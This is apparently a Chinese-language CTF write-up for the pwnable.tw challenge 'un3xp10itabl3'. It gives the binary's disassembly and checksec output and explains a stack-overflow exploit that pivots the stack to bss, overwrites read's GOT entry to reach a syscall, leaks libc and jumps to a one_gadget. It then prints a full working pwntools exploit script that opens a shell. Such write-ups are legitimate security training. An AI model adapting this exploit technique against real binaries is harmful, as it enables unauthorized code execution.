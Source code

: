 ```yaml
---
layout:     post
title:      "pwnable.tw之un3xp10itabl3"
subtitle:   " aslr syscall 利用  "
date:       2018-12-29 12:00:00
author:     "Chris"
catalog: true
tags:
    - Pwn
    - pwnable.tw

 
---
```




## 程序代码

```c
   0x400544 <main>:	push   rbp
   0x400545 <main+1>:	mov    rbp,rsp
=> 0x400548 <main+4>:	sub    rsp,0x10
   0x40054c <main+8>:	mov    edi,0x3
   0x400551 <main+13>:	mov    eax,0x0
   0x400556 <main+18>:	call   0x400450 <sleep@plt>
   0x40055b <main+23>:	lea    rax,[rbp-0x10]
   0x40055f <main+27>:	mov    edx,0x100
   0x400564 <main+32>:	mov    rsi,rax
   0x400567 <main+35>:	mov    edi,0x0
   0x40056c <main+40>:	mov    eax,0x0
   0x400571 <main+45>:	call   0x400430 <read@plt>
   0x400576 <main+50>:	leave  
   0x400577 <main+51>:	ret  

```

500pts，程序简单粗暴，只有一个read,但明显有溢出。

## checksec

```c

[*] '/home/chris/un3xp10itabl3'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
## 漏洞利用

第一段payload完成溢出，并调用read将第二段payload写入bss段中，同时利用gad2的pop rbp，ret到leave ret将栈迁移到bss段上。

第二段payload再次调用read，传入1byte的数据，控制返回值 rax=0x1 (write syscall)的同时，完成修改GOT表中read的LSB变为syscall。利用syscall调用write泄漏sleep的地址，计算出onegadget地址，利用gad2的pop rbp构造出正常程序执行流程的rbp 校正与rsp差值，ret到`lea  rax,[rbp-0x10]`，再次完成溢出。

第三段payload，溢出到one_gadget.


## EXP

```python
######libc-2.23
from pwn import *
context(os='linux', arch='amd64', log_level='debug')

p=process("./un3xp10itabl3")


read_got=0x601000
read_plt=0x400430
sleep_got=0x601010
bss=0x601028

rop1=p64(0x4005e6)+p64(0)+p64(0)+p64(1)+p64(read_got)+p64(0x0)+p64(bss)+p64(0x110)+p64(0x4005d0)+"e"*0x10+p64(bss)+"e"*0x20+p64(0x400576)
sleep(3)
raw_input()

p.send("a"*24+rop1)


rop2=p64(0)+p64(0x4005e6)+p64(0)+p64(0)+p64(1)+p64(read_got)+p64(0x0)+p64(read_got)+p64(0x1)+p64(0x4005d0)+"e"*0x38+  p64(0x4005e6)+p64(0)+p64(0)+p64(1)+p64(read_got)+p64(0x1)+p64(sleep_got)+p64(0x8)+p64(0x4005d0)+"e"*0x10+p64(0x601148)+"e"*0x20+p64(0x40055b)

p.send(rop2)

sleep(1)

p.send("\x5e")

sleep_addr=0xcc230
libc_base = u64(p.recvuntil('\x00',drop=True).ljust(0x8,"\x00"))-sleep_addr
print "libc_base : " + hex(libc_base)
gad_offset=0x4526a
one_gadget=libc_base+gad_offset

p.send("a"*24+p64(one_gadget)+"\x00"*0xe0) 

p.interactive()

```

>[程序下载](https://github.com/yxshyj/project/tree/master/pwn/un3xp10itabl3)